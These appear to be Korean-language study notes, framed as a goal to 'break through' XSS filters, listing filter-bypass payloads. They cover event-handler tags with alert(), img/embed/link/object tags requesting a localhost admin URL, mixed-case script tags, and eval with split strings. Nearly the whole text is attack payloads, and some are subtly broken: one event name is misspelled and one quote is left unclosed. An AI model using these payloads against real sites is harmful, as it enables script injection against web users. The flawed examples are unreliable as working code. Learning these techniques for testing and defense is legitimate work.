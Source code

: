 # XSS 공격을 방어하기 위한 다양한 패치와 필터링 존재.

우리는 그것을 뚫어버려야 한다!!!!

# 1. 백 슬래시

```javascript
<svg onload = "alert('1')">

<img src=# onclick="alert('1')">
<img src=# onmouceover="alert('1')">
```

# 2. 링크

```javascript
<img src="http://127.0.0.1:8000/notice?id=admin">
<embed src="http://127.0.0.1:8000/notice?id=admin"/>
<link rel="stylesheet" href="http://127.0.0.1:8000/notice?id=admin">
<object data=’./notice?id=admin’ ></object>
```

# 3. 대소문자 이용

```javascript
<Script>alert("1")</ScripT>
```

# 4. 문자열 분리

```javascript
<img onclick='var s="aler"+"t(al"+"ert"+"(1));";eval(s);>
```
